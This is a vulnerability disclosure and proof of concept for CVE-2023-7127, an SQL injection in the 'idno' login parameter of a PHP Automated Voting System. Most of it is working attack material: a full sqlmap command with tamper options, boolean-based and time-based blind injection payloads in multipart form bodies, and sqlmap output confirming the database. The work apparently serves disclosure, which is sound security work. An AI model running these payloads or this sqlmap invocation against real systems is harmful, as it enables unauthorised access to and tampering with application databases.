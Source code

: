 # CVE-2023-7127_Automated_Voting_System-SQL_Injection-2
+ **Exploit Title:** CVE-2023-7127_Automated_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7127

## References: 
+ **CVE-2023-7127:** https://vuldb.com/?id.249130
+ https://www.cve.org/CVERecord?id=CVE-2023-7127
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7127
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7127

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'idno' in "/automated%20voting/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voter panel: "http://localhost/automated%20voting/"
+ Fill the voter id and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'idno' parameter to dump the database. 
```
sqlmap -r r.txt -p idno --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART idno ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

-4883' OR 7870=7870-- eCXU
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

11111' AND (SELECT 7894 FROM (SELECT(SLEEP(5)))TcOW)-- MvbQ
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--
---
[19:31:16] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/vote.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:31:17] [INFO] confirming MySQL
[19:31:18] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:31:18] [INFO] fetching current database
[19:31:18] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![02](https://github.com/h4md153v63n/CVEs/assets/5091265/abe5fcf0-759b-470b-866c-6a546f8fb824)
